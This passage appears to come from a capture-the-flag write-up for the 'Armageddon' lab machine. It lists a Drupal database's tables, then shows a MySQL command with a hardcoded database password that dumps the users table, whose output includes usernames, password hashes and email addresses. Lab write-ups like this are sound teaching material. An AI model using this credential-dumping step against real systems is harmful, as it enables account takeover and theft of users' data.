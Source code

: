 ```
menu_links
menu_router
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
```

And we see interesting table *users*.

Let's display all the data from this table.

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users'
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone      language        picture init    data
0                                               NULL    0       0       0       0       NULL            0            NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu          filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu   a:1:{s:7:"overlay";i:1;}
3       hackme  $S$DxsFQHSyj97COJGAMpG9.lQ2Rs.JfgWvZ3.UOxs6AEM6u3ufaRlo hackme@gmail.com                        filtered_html 1618466489      0       0       0       Europe/London           0       hackme@gmail.com        NULL
4       test    $S$DPgrTXFj3pss3Wzr3ZWBz5td6hTHiFlY22BTLio6pzR9qVnkvKwf test@gmail.com                  filtered_html1618468492       0       0       0       Europe/London           0       test@gmail.com  NULL
5       test2   $S$DEKacolsr/JKrKNyomMSuIkJxglGevxTDFx.kIN4NvKsoUga6WR2 tayjojo33@gmail.com                     filtered_html 1618468535      0       0       0       Europe/London           0       tayjojo33@gmail.com     NULL
6       root    $S$DDrl6y0OosU1W8mH6kiX31UblBCK9BnxtW1gzwMBJHOVv70GCyJJ root@gmail.com                  filtered_html1618469566       0       0       0       Europe/London           0       root@gmail.com  NULL
7       pash3nlee       $S$D0cZ4vGpe9fhctcXeEy6hOQ/X4d9JOWIi5dx5NYWZRqpW4SqhIZN pasha@armageddon.htb                 filtered_html    1618473501      0       0       0       Europe/London           0       pasha@armageddon.htb    NULL
```